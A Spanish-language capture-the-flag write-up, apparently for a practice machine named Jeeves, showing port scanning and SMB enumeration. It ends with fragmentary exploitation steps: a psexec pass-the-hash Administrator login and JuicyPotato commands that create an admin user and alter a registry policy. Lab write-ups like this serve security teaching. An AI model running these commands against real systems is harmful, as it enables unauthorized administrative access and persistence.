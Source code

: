 # Reconocimiento

### Nmap

Comenzamos con el escaneo de puertos con la herramienta Nmap.

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.63 -oG allPorts
```

![](ss/Jeeves/nmap.png)

Puertos encontrados:
- 80
- 135
- 445
- 50000

Siguiente paso es identificar los servicios que estan correindo por detras de esos puertos, eso lo hacemos con los siguientes parametros "-sC" para lanzar una serie de scripts de reconocimiento y  "-sV" para identificar las versiones.

Esos dos parametros los podemos simplificar de la siguiente manera ( -sCV ):

```
nmap -p80,135,445 -sCV 10.10.10.63 -oN targeted
```

![](ss/Jeeves/nmap-services.png)

## Puerto 80 ( http )

Esta pagina parece ser un RabbitHole, osea no nos llevara a ningun lado.

![](ss/Jeeves/rabbitHole.png)

Los enlaces no redirijen a ningun sitio y la accion de el form es mostrar un error.html que contiene una imgen de error.

![](ss/Jeeves/errorHtml.png)

Al buscar cualquier dato en el searchBar te muestra la siguiente imgen.

![](ss/Jeeves/imgError.png)

Por lo tanto descartamos este puerto.

## Puerto 445

Para ver exactamente a lo que me estoy enfrentando puedo hacer lo siguiente:

```
crackmapexec smb 10.10.10.63
```

Bueno estamos ante un windows 10 pro x64, la maquina tiene el nombre JEEVES y el smb no esta firmado.

![](ss/Jeeves/cme.png)

Como el el servicio SMB esta expuesto puedo probar listar los recursos compartidos a nivel de red existentes con la herramienta smbclient.

```
smbclient -L 10.10.10.63 -N
```

![](ss/Jeeves/smbclient.png)

Probamos con otra herramienta alternativa, smbmap.

```
smbmap -H 10.10.10.63
```

Pero no consigo nada.

![](ss/Jeeves/smbmap.png)

Pruebo con NULL session y nada.

![](ss/Jeeves/smbmap-null.png)

## Psexec.py

```
psexec.py WORKGROUP/Administrator@10.10.10.63 -H e0fb1fb85756c24235ff238cbe81fe00
```

## Juicy Potato

Crear un nuevo usuario.

```
JuicyPotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net user pos3idon pos3idon123$! /add" -l 1234
```

Agregar usuario nuevo al grupo Administrators

```
JuicyPotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net localgroup Administrators pos3idon /add" -l 1234
```

...

```
JP.exe -t * -p c:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1234
```